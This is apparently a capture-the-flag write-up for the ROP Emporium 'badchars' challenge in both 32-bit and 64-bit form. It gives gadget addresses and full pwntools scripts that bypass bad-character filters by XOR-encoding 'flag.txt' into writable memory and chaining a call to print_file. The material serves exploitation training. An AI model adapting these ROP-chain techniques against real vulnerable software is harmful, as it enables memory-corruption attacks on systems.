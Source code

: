 # BADCHARS

In this challenge, we got to explore how bad char restrictions can be bypassed.
Bad chars are chosen so that the bypasses are conventional and easy enough.

## 32-bit

Most of the explanation goes here.

<details>
  <summary><b>Solution:</b></summary>
  
  ### Information gathering

  The bad chars are `[agx.]` (`0x61`, `0x67`, `0x78`, `0x2e`).

  From `readelf -l`, again `data .bss .dynamic` and the stack are writeable.

  This time I'll be using the `readelf -t` command to read the session sizes:

```
[24] .data
    PROGBITS        0804a018 001018 000008 00   0   0  4
    [00000003]: WRITE, ALLOC
[25] .bss
    NOBITS          0804a020 001020 000004 00   0   0  1
    [00000003]: WRITE, ALLOC
```

  Functions addresses:

```
0x080483b0  pwnme@plt
0x080483d0  print_file@plt
0x0804852a  usefulFunction
0x08048538  call <print_file@plt>
0x08048543  usefulGadgets
```

  Useful and other gadgets:

```
0x08048543 <+0>:     add    BYTE PTR [ebp+0x0],bl
0x08048546 <+3>:     ret    
0x08048547 <+4>:     xor    BYTE PTR [ebp+0x0],bl
0x0804854a <+7>:     ret    
0x0804854b <+8>:     sub    BYTE PTR [ebp+0x0],bl
0x0804854e <+11>:    ret    
0x0804854f <+12>:    mov    DWORD PTR [edi],esi
0x08048551 <+14>:    ret
```
  
  ![gadgets32](https://user-images.githubusercontent.com/114584910/198347039-3bd8891f-83de-42e9-904f-02b54f621e71.png)

> bl is the name of the [low 8 bits (bits 7-0) in the ebx register](https://stackoverflow.com/questions/34380974/what-does-mov-bl-do-in-assembly).

  The gadgets allow us to XOR/ADD/SUB by character.
  Naturally ADD and SUB are more flexible and will work as long as a valid character is odd (provided that we can supply that long of an input),
  but I'll only use XOR for demostration.

  ### Devising and implementating payload

  Let's try writing a function as recommended by challenge instruction.
  It should be a really good programming exercise.

```py
from pwn import *
# use XOR only
def sanitize_letter(c, badchars):
    xor_badchars = set(b^c for b in badchars)
    for i in range(c, c+256):
        if i%256 not in xor_badchars and (i%256)^c not in xor_badchars:
            return (i%256, (i%256)^c)
    return (None, None)

def write_string_with_badchars32(string, memory_range, badchars):
    safe_padding = None
    for i in range(256):
        if i not in badchars:
            safe_padding = bytes([i])
            break
    if string[-1] != 0:
        string += b'\x00'
    string += safe_padding * ((4-len(string)%4)%4)
    start, end = memory_range
    if end-start < len(string):
        return False
    invalid_memory_set = set(i for i in range(start, end) if any(j in badchars for j in p32(i)))

    # get all char index that need change
    index_needing_change = [i for i,s in enumerate(string) if s in badchars]

    true_start = None
    # for each possible starting points
    for i in range(start, end-len(string)+1): # easy to miss +1
        # check each fragment
        if any(j in invalid_memory_set for j in range(i,i+len(string),4)):
            continue
        # check each letter
        if any(i+j in invalid_memory_set for j in index_needing_change):
            continue
        true_start = i
        break
    
    if not true_start:
        return False
    
    info = [sanitize_letter(c, badchars) for c in string]

    # unable to sanitize letter
    if any(i[0] == None for i in info):
        return False

    stack = []
    for i in range(len(string)//4):
        stack += [p32(0x80485b9), bytes(info[j][0] for j in range(i*4,i*4+4)), p32(true_start+i*4), p32(0) + p32(0x0804854f)]
    for j in index_needing_change:
        stack += [p32(0x80485bb), p32(true_start+j), p32(0x804839d), p32(info[j][1]),p32(0x08048547)]

    return (b"".join(stack), true_start)
```

    Solving the challenge is now very simple:

```py
info = write_string_with_badchars32(b"flag.txt", (0x0804a018, 0x0804a024), b"agx.")

if info:
    stack = b"A"*40+p32(0)+info[0]+p32(0x08048538)+p32(info[1])
    # print(f"r < <(python3 -c 'import sys; sys.stdout.buffer.write({stack})')") # note: the inner quotes needs to be changed to double quotes
    p = process("badchars32")
    p.sendafter(b"> ", stack)
    p.interactive()
else:
    print("Not very possible")
```

</details>

## 64-bit

Only slightly harder.

<details>
  <summary><b>Solution:</b></summary>
  
  ### Information gathering

  The bad chars are `[agx.]` (`0x61`, `0x67`, `0x78`, `0x2e`).

  Writeable sections (`readelf -t`):

```
[23] .data
    PROGBITS         0000000000601028  0000000000001028  0
    0000000000000010 0000000000000000  0                 8
    [0000000000000003]: WRITE, ALLOC
[24] .bss
    NOBITS           0000000000601038  0000000000001038  0
    0000000000000008 0000000000000000  0                 1
    [0000000000000003]: WRITE, ALLOC
```

  This time we have `0x18` bytes, but if we use `0x601028` as the start,
  the badchar `x` in `flag.txt` will land on 0x6010**2e**, which is bad.
  It doesn't really matter because my code handles those cases already.

  Functions addresses:

```
0x400500  pwnme@plt
0x400510  print_file@plt
0x400617  usefulFunction
0x400620  call <print_file@plt>
0x400628  usefulGadgets
```

  Useful and other gadgets:

```
0x400628 <+0>:     xor    BYTE PTR [r15],r14b
0x40062b <+3>:     ret    
0x40062c <+4>:     add    BYTE PTR [r15],r14b
0x40062f <+7>:     ret    
0x400630 <+8>:     sub    BYTE PTR [r15],r14b
0x400633 <+11>:    ret    
0x400634 <+12>:    mov    QWORD PTR [r13+0x0],r12
0x400638 <+16>:    ret    
0x400639 <+17>:    nop    DWORD PTR [rax+0x0]
```

  ![gadgets](https://user-images.githubusercontent.com/114584910/198347109-8b4330a0-6fa9-4f19-bf11-055f7c306eb4.png)


> b after a register denotes the [lowest 8-bit](https://wiki.cdot.senecacollege.ca/wiki/X86_64_Register_and_Instruction_Quick_Start)

  While the `0x40069c` allows us to set `r14` and `r15` for the XOR gadget so we could have a shorter payload,
  I decide to stick to my old script which is a bit more flexible.

  ### Implementating payload

  The function is only minorly modified.

```py
from pwn import *
# use XOR only
def sanitize_letter(c, badchars):
    xor_badchars = set(b^c for b in badchars)
    for i in range(c, c+256):
        if i%256 not in xor_badchars and (i%256)^c not in xor_badchars:
            return (i%256, (i%256)^c)
    return (None, None)

def write_string_with_badchars32(string, memory_range, badchars):
    safe_padding = None
    for i in range(256):
        if i not in badchars:
            safe_padding = bytes([i])
            break
    if string[-1] != 0:
        string += b'\x00'
    string += safe_padding * ((8-len(string)%8)%8)
    start, end = memory_range
    if end-start < len(string):
        return False
    invalid_memory_set = set(i for i in range(start, end) if any(j in badchars for j in p64(i)))

    # get all char index that need change
    index_needing_change = [i for i,s in enumerate(string) if s in badchars]

    true_start = None
    # for each possible starting points
    for i in range(start, end-len(string)+1):
        # check each fragment
        if any(j in invalid_memory_set for j in range(i,i+len(string),4)):
            continue
        # check each letter
        if any(i+j in invalid_memory_set for j in index_needing_change):
            continue
        true_start = i
        break
    
    if not true_start:
        return False
    
    info = [sanitize_letter(c, badchars) for c in string]

    # unable to sanitize letter
    if any(i[0] == None for i in info):
        return False

    stack = []
    for i in range(len(string)//8):
        stack += [p64(0x40069c), bytes(info[j][0] for j in range(i*8,i*8+8)), p64(true_start+i*8), p64(0)*2, p64(0x400634)]
    for j in index_needing_change:
        stack += [p64(0x4006a0), p64(info[j][1]), p64(true_start+j), p64(0x400628)]

    return (b"".join(stack), true_start)
```

  For the final payload, just be careful about changing register for the final call and any stack alignment issue that may arise and it will end up fine.

```py
info = write_string_with_badchars32(b"flag.txt", (0x601028, 0x601040), b"agx.")

if info:
    stack = b"A"*40+info[0]+p64(0x4006a3)+p64(info[1])+p64(0x400620)
    # print(f"r < <(python3 -c 'import sys; sys.stdout.buffer.write({stack})')") # note: the inner quotes needs to be changed to double quotes
    p = process("badchars")
    p.sendafter(b"> ", stack)
    p.interactive()
else:
    print("Not very possible")
```

</details>
